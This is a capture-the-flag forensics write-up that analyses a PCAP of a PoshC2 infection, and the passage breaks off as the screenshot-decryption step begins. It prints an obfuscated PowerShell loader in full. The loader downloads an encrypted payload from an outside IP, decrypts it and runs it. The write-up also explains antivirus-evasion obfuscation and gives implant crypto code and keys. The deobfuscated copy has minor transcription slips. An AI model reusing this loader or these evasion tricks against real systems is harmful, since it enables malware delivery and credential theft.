---

## Challenge Scenario

> *"We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?"*

**Materials provided:**
- PCAP file: `capture.pcap`

---

## Initial Analysis

The first thing I always do when given a PCAP file is check the **Protocol Hierarchy** in Wireshark. This gives a high-level picture of what kinds of traffic are present before diving into individual packets.



In this case, TCP traffic made up **99.5% of all packets** — which is a strong signal that most of the interesting activity happened over TCP-based protocols like HTTP. Looking at the IPv4 statistics, two IP addresses stood out as the primary communicators:

- `64.226.84.200` — the remote server (likely the attacker's C2)
- `192.168.25.140` — the victim machine on the local network



Following the HTTP streams, **Stream 0** immediately revealed something suspicious: an obfuscated PowerShell script being delivered over HTTP. This is a classic initial-access technique — deliver a malicious script through an unencrypted HTTP channel and hope nobody is watching.



**Stream 2** showed the victim machine sending a GET request for a specific resource path:

```
/94974f08-5853-41ab-938a-ae1bd86d8e51
```



The User-Agent string here was `Microsoft BITS/7.8`, which stands for **Background Intelligent Transfer Service**. BITS is a legitimate Windows tool normally used for downloading Windows updates in the background. Malware commonly abuses it as a **Living-off-the-Land (LotL)** technique — using built-in OS tools to blend in and avoid detection.


From **Stream 3 onwards**, the client began sending regular GET requests to the C2 server, and the server responded with what appeared to be Base64-encoded payloads. The custom domain names and session cookies in these requests were immediately suspicious — a clear sign that the machine was now fully compromised and receiving instructions from a C2 framework.



My goal became clear: start from the PowerShell script, understand what it does, and work my way up through the encrypted traffic.

---

## Deeper Analysis

### Step 1 — PowerShell Script Deobfuscation

Using Wireshark's **Export HTTP Objects** feature, I extracted the file `vn84.ps1`. Opening it in Visual Studio Code, the obfuscation was immediately obvious.

`vn84.ps1`

```C#
 .("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"
```

#### Obfuscation Techniques Used

The script uses four main techniques to evade antivirus detection:

**1. String Reordering with the Format Operator (`-f`)**

Instead of writing `New-Object` directly, the script scrambles it:
```powershell
"{1}{0}{2}" -f 'w-Ob','Ne','ject'  # Produces: "New-Object"
```
This breaks up keyword signatures that AV engines scan for. The string is perfectly valid at runtime but looks like gibberish to a static scanner.

**2. Variable Name Fragmentation**

.NET class names are hidden behind random variable names stitched together with string concatenation:
```powershell
('vAriA'+'ble'+':q'+'L'+'z0so')
[tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')
```
This makes it very hard to grep for obvious class names like `System.Security.Cryptography`.

**3. Case Randomization (SpongeCase)**

You'll notice erratic capitalization throughout: `${URl}`, `oPeN`, `SySTEM.iO`. PowerShell is entirely case-insensitive, so this has no effect on execution — but it defeats many signature-based detection tools that expect standard casing.

**4. Backtick Insertion**

Backticks appear inside variable names and strings: `${K`EY}`, `KEYsIZE`. In PowerShell, a backtick before a regular character is simply ignored at runtime. It's essentially invisible to the interpreter, but it breaks the string for automated scanners.

#### Fully Deobfuscated Script

After cleaning everything up, the script becomes straightforward to read:

```powershell
Set-Item variable:qLz0so ([Type]("System.IO.FileMode"))
Set-Variable l60Yu3 ([Type]("System.Security.Cryptography.Aes"))
Set-Variable BI34 ([Type]("System.Security.Cryptography.CryptoStreamMode"))

$Url = "http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e516"
$Ptf = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"

Import-Module BitsTransfer
Start-BitsTransfer -Source $Url -Destination $Ptf

$Fs  = New-Object IO.FileStream($Ptf, (Get-Item variable:qLz0so).Value::Open)
$MS  = New-Object System.IO.MemoryStream
$aes = (Get-Variable l60Yu3).Value::Create.Invoke()

$aes.KeySize = 128
$Key = [byte[]](0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
$iv  = [byte[]](0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
$aes.Key = $Key
$aes.IV  = $iv

$Cs   = New-Object System.Security.Cryptography.CryptoStream($MS, $aes.CreateDecryptor.Invoke(), (Get-Variable BI34 -Value)::Write)
$Fs.CopyTo($Cs)
$decD = $MS.ToArray()

$decD | Set-Content -Path "$env:temp\tmp7102591.exe" -Encoding Byte
& "$env:temp\tmp7102591.exe"
```

#### What This Script Actually Does

This is a **malware loader** — its sole purpose is to fetch, decrypt, and execute a secondary payload. Here is what each part does:

| Variable | Mapped .NET Class |
|---|---|
| `$qLz0so` | `System.IO.FileMode` |
| `$l60Yu3` | `System.Security.Cryptography.Aes` |
| `$BI34` | `System.Security.Cryptography.CryptoStream` |

**Payload Download:** Uses `Start-BitsTransfer` (a legitimate Windows tool) to quietly download an encrypted file from the C2 server into the system's temp directory.

**Decryption Setup:** Initializes AES-128-CBC with hardcoded key and IV values:
```powershell
$Key = [byte[]](0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
$iv  = [byte[]](0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
```

**Payload Decryption:** Uses a `CryptoStream` to pipe the downloaded file through AES decryption directly in memory. The decrypted result is stored in `$decD`.

**Drop & Execute:** Writes the decrypted payload to disk as `tmp7102591.exe` and immediately executes it. The downloaded file was the encrypted C2 implant itself.



---

### Step 2 — Binary Analysis

#### Background Check

Before doing any reverse engineering, I first checked the extracted binary on **VirusTotal**.



 It was flagged as a dropper for **PoshC2** — an open-source Command and Control framework. Knowing the C2 framework ahead of time is a huge advantage because it means we can study its source code to understand exactly how it encrypts traffic.

Running the binary through **Detect It Easy** confirmed it was a **.NET executable**, compiled with the C# compiler. 




This is ideal for us, since .NET binaries can be almost perfectly decompiled back to readable C# using a tool like **ILSpy**.

#### Reverse Engineering the Decryption Logic

Opening the binary in ILSpy, the first thing I looked for was the decryption function, since that would tell me everything I needed to know about how traffic is encrypted.

`Decryption()`
```csharp
using System;
using System.Security.Cryptography;
using System.Text;

private static string Decryption(string key, string enc)
{
	byte[] array = Convert.FromBase64String(enc);
	byte[] array2 = new byte[16];
	Array.Copy(array, array2, 16);
	try
	{
		SymmetricAlgorithm symmetricAlgorithm = CreateCam(key, Convert.ToBase64String(array2));
		byte[] bytes = symmetricAlgorithm.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
		return Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes).Trim(new char[1])));
	}
	catch
	{
		SymmetricAlgorithm symmetricAlgorithm2 = CreateCam(key, Convert.ToBase64String(array2), rij: false);
		byte[] bytes2 = symmetricAlgorithm2.CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
		return Encoding.UTF8.GetString(Convert.FromBase64String(Encoding.UTF8.GetString(bytes2).Trim(new char[1])));
	}
	finally
	{
		Array.Clear(array, 0, array.Length);
		Array.Clear(array2, 0, 16);
	}
}
```

What this function tells us is that the decryption process is a **two-layer Base64 + AES scheme**:

1. The incoming payload is **Base64 decoded** to get raw bytes
2. The **first 16 bytes** of those raw bytes are extracted and used as the **IV**
3. The remaining bytes are **AES-256-CBC decrypted** using a key passed in as a parameter
4. The decrypted result is **Base64 decoded again** to get the final plaintext

The helper function `CreateCam` confirms this is **AES-256-CBC** with **zero padding** and a **128-bit block size**:

`CreateCam`

```csharp
private static SymmetricAlgorithm CreateCam(string key, string IV, bool rij = true)
{
	SymmetricAlgorithm symmetricAlgorithm = null;
	symmetricAlgorithm = ((!rij) ? ((SymmetricAlgorithm)new AesCryptoServiceProvider()) : ((SymmetricAlgorithm)new RijndaelManaged()));
	symmetricAlgorithm.Mode = CipherMode.CBC;
	symmetricAlgorithm.Padding = PaddingMode.Zeros;
	symmetricAlgorithm.BlockSize = 128;
	symmetricAlgorithm.KeySize = 256;
	if (IV != null)
	{
		symmetricAlgorithm.IV = Convert.FromBase64String(IV);
	}
	else
	{
		symmetricAlgorithm.GenerateIV();
	}
	if (key != null)
	{
		symmetricAlgorithm.Key = Convert.FromBase64String(key);
	}
	return symmetricAlgorithm;
}
```

#### Finding the Hardcoded Key

From there, I traced the execution path: `Main()` → `Sharp()` → `primer()`. Inside `primer()`, I found the hardcoded AES key used for the initial traffic:

```csharp
string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
```

This is the **first-stage decryption key** — the key baked directly into the binary to encrypt the very first beacon response from the C2 server.

---

### Step 3 — Traffic Decryption

#### Decrypting the First Beacon Response

Now that I had the decryption logic and the hardcoded key, I could start decrypting traffic in **CyberChef** using the following recipe:

1. **From Base64** — decode the outer Base64 layer
2. **AES Decrypt** — Mode: CBC, Key: `DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=` (Base64), IV: first 16 bytes of the decoded payload (Hex)
3. Strip null padding from the output
4. **From Base64** — decode the inner Base64 layer to get the final plaintext

The decrypted first beacon response revealed the **implant's full configuration**, wrapped in regex-parseable tags:

```
RANDOMURI19901dVfhJmc2ciKvPOC10991IRUMODNAR
KILLDATE16652025-01-015661ETADLLIK
SLEEP980013s10089PEELS
JITTER20250.25202RETTIJ
NEWKEY8839394nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=4939388YEKWEN
IMGS19459394...Base64 PNG images...49395491SGMI
```

The most important field here is `NEWKEY` — it contains the **rotated AES key** that will be used for all future C2 communications:

```
nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=
```

This is a key design pattern in PoshC2: the initial hardcoded key is only used once to deliver a new session key. After that, all traffic is encrypted with `NEWKEY`, which changes per session and is never stored in the binary itself. This makes static analysis much less useful after the first beacon.

The `IMGS` field contains several **Base64-encoded PNG images** that the implant keeps in memory. These are not sent to the victim — rather, they are used as decoy wrappers when sending data *back* to the C2, as we will see shortly.

#### Decrypting the Session Cookie

I also decrypted the session cookie sent alongside these requests using the same key and parameters. The decrypted cookie revealed victim fingerprinting data: hostname, username, system architecture, process ID, and a session counter. PoshC2 embeds this metadata directly into the cookie to uniquely identify each infected host during communication — so the server always knows which victim it is talking to.



#### Decrypting Later Streams

With `NEWKEY` in hand, decrypting further streams was straightforward — the same two-step Base64 + AES-256-CBC process, just using the new key.

**Stream 5** revealed a `loadmodule` command followed by a large Base64 blob that decoded into another PE binary — likely a post-exploitation module being loaded into memory. I extracted and examined it in ILSpy but did not find anything immediately useful.




**Streams 6–8** each contained what appeared to be a PNG image with extra data appended after the PNG footer. This was my first hint that something was being hidden inside fake images. Decrypting the session cookies for these streams confirmed that the session counter was incrementing normally.



**Stream 16** revealed another `loadmodule` command — this time, the attacker loaded the binary alongside with running **Mimikatz** (`sekurlsa` module). This tells us the attacker was attempting to dump credentials from the victim's memory. A very standard post-exploitation step after gaining a foothold.



**Stream 27** finally revealed a **screenshot command** in the tasking, with session ID `00036`.




**Stream 28** was the corresponding response — the session cookie decrypted to session ID `00036`, confirming this was the screenshot being sent back. The response body was an unusually large blob with an image header followed by a lot of data. This is where the real challenge began.



---

### Step 4 — Screenshot Decryption

#### Understanding the Encryption Chain

At this point I went back to the mystery binary extracted from Stream 5 and looked more carefully. Inside it, I found the `GetScreenshot` function and traced the full encryption chain used to send the image back to the C2.

